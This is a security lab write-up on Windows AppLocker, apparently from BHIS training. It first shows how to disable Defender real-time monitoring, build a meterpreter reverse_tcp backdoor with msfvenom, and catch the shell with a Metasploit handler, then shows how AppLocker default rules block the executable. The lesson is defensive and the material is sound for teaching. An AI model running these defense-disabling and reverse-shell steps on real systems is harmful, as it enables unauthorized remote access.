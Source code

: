 <h3>AppLocker</h3>

_NOTE: All the procedures in this lab were created and learned from: [Getting Started in Security with BHIS and MITRE ATT&CK](https://www.antisyphontraining.com/event/getting-started-in-security-with-bhis-and-mitre-attck/2023-09-18/) taught by [John Strand](https://www.sans.org/profiles/john-strand/)_

---

Tools/Technologies used: Windows, Linux, Powershell, cmd, Applocker, Backdoor & Backdoor listener, and Metasploit

---

[Windows AppLocker](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/windows-defender-application-control/applocker/what-is-applocker) is a security feature in Windows that lets administrators control which applications and scripts can run on a computer or network by creating policies based on file attributes. It enhances security by allowing only authorized and trusted software to execute, reducing the risk of malware and unauthorized applications.<br>

---

Let's examine the scenario when AppLocker isn't active. Our objective is to establish a basic backdoor that connects to the Ubuntu system. It's important to note that our goal is not to demonstrate evasion of EDR or Endpoint products but rather to create a straightforward backdoor connection.

First, let's disable Defender for this session. Execute the following command from an Administrator PowerShell prompt:

```Set-MpPreference -DisableRealtimeMonitoring $true```

If you encounter any red error messages, don't worry; this indicates that Defender is not currently running.

To simplify this process, we have a couple of scripts available. Ensure that both your Windows and Linux systems are running, and let's begin by opening a Terminal as an Administrator.

![1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/5c41c2da-866f-4ee4-9620-2b84a8acca23)
![1 5](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/bf18a584-6def-4450-ad8e-4ea2fd9e92ac)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![2](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/ef060e3f-f787-40dc-bcaa-608dabdb3894)

On your Linux system, please run the following command:

$`ifconfig`

![3](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/730a3081-5acd-4a55-94f1-3adf4aaa7975)

Please note the IP address of your Ethernet adapter.

Please note that my adaptor is called eth0 and my IP address is 172.17.32.119. Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener:

$ `sudo su -` Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444  -f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`

`cp ./TrustMe.exe /mnt/c/tools`

![3 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/a26a1b6d-945d-414e-9647-095a22f62080)

Now, let's start the Metasploit Handler. First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`

root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

![3 2](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/27d921a5-657f-4946-b602-7ee897783d06)

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`

It should look like this:

![4](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/c25b312a-6d42-4bf3-9094-e5d10d661944)

Now, let’s download the malware and run it!

First, let's open a Windows command prompt. Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

`cd \tools`

Then, run it.

`.\TrustMe.exe`

Back at your Ubuntu prompt, you should have a metasploit session!

![5](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/8a6d314b-9e7e-4ed1-91e1-42f899b551a8)

Now, let’s stop this from happening!

First, let’s configure AppLocker. To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo) then type Local Security. It should bring up a menu like the one below, please select Local Security Policy.

![6](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/a6918cd3-d8f7-4dde-9372-7f1b9190597e)

Next, we will need to configure AppLocker. To do this, please go to Security Settings > Application Control Policies and then AppLocker.

![7](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/2db93d97-4465-4eea-aacd-065ce487a71f)

In the right hand pane, you will see there are 0 Rules enforced for all policies. We will add in the default rules. We will choose the defaults because we are far less likely to brick a system.

![8](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/3ca06428-fd48-40d8-ab73-cc3807c26f3c)

Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”

![9](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/ee9627c6-62ff-4db1-b9fe-9f595446c39d)

This should generate a subset of rules for each group. It should look similar to how it does below:

![10](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/4ed4648b-0533-4561-a69b-8ee050252334)

Next, we need to enforce the rules:

To do this you will need to select AppLocker on the far left pane. Then, you will need to select Configure rule enforcement. This will open a pop-up, you will need to check Configured for each set of rules

![11](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/009ace81-c4a7-4099-9d81-77ee996ed916)

Now, we will need to start the Application Identity service. This is done through pressing the Windows key and typing Services. This will bring up the Services App. Please select that and then double-click “Application Identity.”

![11 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/e6c7102a-2c60-409b-84fb-2cdc09cf5aa3)
![12](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/8005f161-ff7e-47b4-82c0-b1c23b8d4e22)

Once the Application Identity Properties dialog is open, please press the Start button. This will start the service.

![13](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/96cf5159-aa2f-467e-9137-42f8558afd63)

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

![13 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/3e5f5109-0f64-4af6-8bfb-4db5215a01c9)

Next, log out as ADHD and log back in as allowlist.

You can do this easily by selecting the Windows icon and then the little white user icon:

![14](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/1a2599a6-b079-4226-87ea-7d322241d038)

The password is ADHD.

Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![15](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/fb6bdd70-08f6-4729-96a6-e5a5fb2e21dc)
You will see that most of the .exe files will generate an error.

You should get an error.







